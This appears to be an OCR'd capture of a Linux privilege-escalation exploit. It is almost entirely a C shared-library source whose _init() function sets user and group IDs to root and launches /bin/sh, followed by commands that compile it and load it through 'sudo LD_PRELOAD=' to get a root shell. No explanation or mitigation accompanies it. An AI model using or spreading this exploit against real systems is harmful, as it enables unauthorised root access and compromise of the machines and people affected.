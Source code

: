 ```c
	#include <stdio.h>
	#include <sys/types.h>
	#include <stdlib.h>
	void _init() {
		unsetenv("LD_PRELOAD");
		setgid(0);
		setuid(0);
		system("/bin/sh");
	}
```

	>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
	>ls -al shell.so
	>sudo LD_PRELOAD=/tmp/shell.so find
	>id